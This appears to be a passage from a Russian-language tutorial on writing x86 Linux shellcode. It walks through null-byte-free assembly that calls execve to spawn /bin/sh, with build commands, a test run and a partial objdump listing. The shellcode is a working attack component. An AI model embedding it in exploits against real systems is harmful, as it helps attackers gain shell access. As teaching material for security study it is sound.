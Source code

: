 ```c
xor eax, eax    
push eax       
push 0x0a202120 ; line return + " ! "
push 0x504f4c50 ; "POLP"
mov ecx, esp
```

# Код «оболочки» 

Нам было весело печатать строки на нашем терминале, но где же **«оболочка»** нашего шелл-кода? Хороший вопрос ! Давайте создадим шелл-код, который на самом деле вызовет приглашение оболочки.

Для этого мы будем использовать другой системный вызов, [execve](http://man7.org/linux/man-pages/man2/execve.2.html) , который имеет номер **11** или **0xb** в [таблице системных вызовов](https://syscalls.kernelgrok.com/) . Он принимает 3 аргумента:

- Программа для выполнения -> _EBX_
- Аргументы или _argv_ (null) -> _ECX_
- Окружение или envp (null) -> _EDX_

```c
int execve(const char *filename, char *const argv[], char *const envp[]);
```

На этот раз мы напишем код напрямую без нулевых байтов.

```c
; nasm -f elf32 execve.asm
; ld -m elf_i386 execve.o -o execve
BITS 32

section .text
global _start

_start:
xor eax, eax
push eax        ; string terminator
push 0x68732f6e ; "hs/n"
push 0x69622f2f ; "ib//"
mov ebx, esp    ; "//bin/sh",0 pointer is ESP
xor ecx, ecx    ; ECX = 0
xor edx, edx    ; EDX = 0
mov al, 0xb     ; execve()
int 0x80  
```

Теперь давайте соберем его и проверим, правильно ли он работает и не содержит ли _нулевых_ байтов.

```bash
# nasm -f elf32 execve.asm
# ld -m elf_i386 execve.o -o execve
# ./execve 
# id
uid=0(root) gid=0(root) groups=0(root)
# exit    

# objdump -Mintel -D execve

08049000 <_start>:
 8049000:       31 c0                   xor    eax,eax
 8049002:       50                      push   eax
 8049003:       68 6e 2f 73 68          push   0x68732f6e
 8049008:       68 2f 2f 62 69          push   0x69622f2f
 804900d:       89 e3                   mov    ebx,esp
 804900f:       31 c9                   xor    ecx,ecx
 8049011:       31 d2                   xor    edx,edx
```